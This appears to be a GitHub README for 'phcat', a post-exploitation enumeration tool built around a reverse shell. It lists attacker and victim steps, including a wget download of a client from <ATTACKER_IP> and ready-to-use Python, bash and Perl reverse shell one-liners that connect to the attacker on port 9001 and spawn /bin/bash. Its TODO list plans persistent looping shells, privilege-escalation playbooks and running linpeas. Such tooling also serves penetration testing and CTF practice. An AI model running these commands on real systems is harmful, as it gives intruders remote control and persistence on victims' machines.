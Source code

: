 # Description
phcat automates and keeps track of what enumeration you've done on the victim system and provides hints on vulnerabilities, misconfigurations, or other interesting facts about your victim host. phcat aspires to automate exploitation as well in a near future, similarly -- but worse -- than Caleb Stewarts's pwncat. The entry point is a reverse shell which is implemented using Gallopsled's pwntools.

# Screenshots
![phcat screenshot 1](/screenshots/screenshot1.png)
![phcat screenshot 2](/screenshots/screenshot2.png)
![phcat screenshot 3](/screenshots/screenshot3.png)
![phcat screenshot 4](/screenshots/screenshot4.png)

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available  
  - (Low) Implement "persisting" looping reverse shell install  
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc  
    - (Low) Have menu items show if an error occured of if the playbook results are already available  
    - show enumerate  
      [ ] 1. Check SUID binaries  
    - use enumerate 1  
    - show network  
      [ ] 1. Local IPv4s  
      [X] 2. Connected subnets  
      [ ] 3. Reachable online hosts  
    - show network 2  
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.  
- (Low) Better logging with colors and stuff!
- (Low) When checking SUID files, compare against pre-built list of 'known' default install binaries. Also check creation dates for clues.
